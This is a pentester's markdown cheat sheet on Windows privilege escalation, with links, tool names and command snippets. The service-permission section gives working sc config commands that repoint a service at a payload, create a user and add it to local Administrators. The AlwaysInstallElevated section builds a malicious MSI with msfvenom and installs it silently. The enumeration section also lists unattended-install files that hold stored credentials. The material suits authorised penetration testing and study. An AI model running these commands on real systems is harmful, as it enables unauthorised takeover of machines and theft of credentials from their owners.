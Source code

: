 # Windows Privilege Escalation #

## Awesome Resources ##

http://www.fuzzysecurity.com/tutorials/16.html

https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/

https://toshellandback.com/2015/11/24/ms-priv-esc/

https://xapax.gitbooks.io/security/content/privilege_escalation_windows.html

http://www.greyhathacker.net/?p=738

http://www.greyhathacker.net/?p=185

https://www.sploitspren.com/2018-01-26-Windows-Privilege-Escalation-Guide/


## Tools ##

https://github.com/GDSSecurity/Windows-Exploit-Suggester

http://www.powershellempire.com/?page_id=378

http://pentestmonkey.net/tools/windows-privesc-check


## Useful Commands ##

**Unquoted Service paths** 

Using WMIC, list service names, display names, executable path and the start mode while grepping (findstr) for any entry without a quote ("). You can also add `findstr /i "Auto"` to only display services that autorun.
For details on how to exploit this and why this is vulnerable check out [Pentest Blog](https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/
)


```
wmic service get name,displayname,pathname,startmode |findstr /i /v "C:\Windows\\" |findstr /i /v """
```

Alternatively there is a Metasploit module that can check for unquoted service paths and attempt to exploit them. `exploit/windows/local/trusted_service_path`

## Insecure File/Folder Permissions ##
The built-in windows tools `icacls` can be used to check a folder or file permissions. What you are checking for here is the permissions of the user group "Everyone" and your current user to have either Full (F) permissions or modifiable/write(M) permissions.

```
icacls "C:\Program Files\AppName\executable.exe"
```


## Insecure Service Permission Configuration ##

The tool [AccessChk](https://technet.microsoft.com/en-us/sysinternals/accesschk.aspx) can be used in a few different ways check to for services with insecure permissions that may permit a low-priv user to change the services configuration, including the executable the service runs.

After uploading AccessChk the first time it is run you will need to pass `/accepteula`. Below are a few commands that will search for services that any Authenticated User can edit, Display permission for a specific service, or check the entire drive for weak permissions

```
accesschk.exe /accepteula
accesschk.exe -uwcqv "Authenticated Users"
accesschk.exe -ucqv [service_name]
accesschk.exe -uwqs "Authenticated Users" c:\*.*
```

Once a weak service has been identified you can alter the service using `sc`

Display the Services Configuration
```
sc qc "Service Name"
```

Alter the binpath of the service to execute a custom executable, add a new user (or any other valid windows command), then add the user to local administrators (After you add the new user). The fourth command `cmd.exe \k` can be used to get around SCM terminating a non-legitimate service (e.g. our malicious executable).
```
sc config "Service Name" binpath= "payload.exe"
sc config "Service Name" binpath= "net user myuser P4ssw0rd@ /add
sc config "Service Name" binpath= "net localgroup Administrators eviladmin /add"
sc config "Service Name" binpath= "cmd.exe /k payload.exe"
```

The service can be started and stopped using:
```
sc stop "Service Name"
sc start "Service Name"
```

If you do not have permissions to restart the service but it's startmode is Auto, try to restart the host machine to get your command/executable to run.

## MSI Always Install Elevated ##

If either of the following registry values is present, windows will always install MSI packages with Elevated permissions. 
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

You can exploit this by using MSFvenom to create a malicious executable (reverse shell or add user), and then a malicious MSI that calls the executable. Upload both then install the MSI package.
```
msfvenom -f msi-nouac -p windows/exec cmd="C:\path\to\Payload.exe" > payload.msi

msiexec /quiet /qn /i payload.msi
```


## Enumeration/Info Commands ##

Display all users on system
```
net users
```

View Scheduled tasks. **Check permissions of tasks, maybe the executable file/folder has weak permissions.** Also check what that task does, is it loading a DLL (with weak permissions), is it loading a modifiable configuration file, or interacting with other services? 
```
schtasks /query /fo LIST /v
```

View started services:
```
tasklist /SVC

netstart
```

OS Version
```
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
```
OS info can also be found in: `C:\Windows\System32\license.rtf`, this is more useful if you don't have a shell such as directory traversal through ftp/web, or LFI.

Check for listening ports, or other connected machines.
```
netstat 
-ant
```

For Kernel exploits check the OS version and further check the KB patches. The first two links in the [Tools](Tools) Section are great for this as well as collecting general information. Some of the scripts will also search for vulnerable services, and file/folders as discussed here and output the results nicely formatted.


Check the OS for important configuration files. These files may contain passwords that are base64 encoded used for Unattended installs.

```
c:\sysprep.inf
c:\sysprep\sysprep.xml
c:\unattend.xml
%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml
```


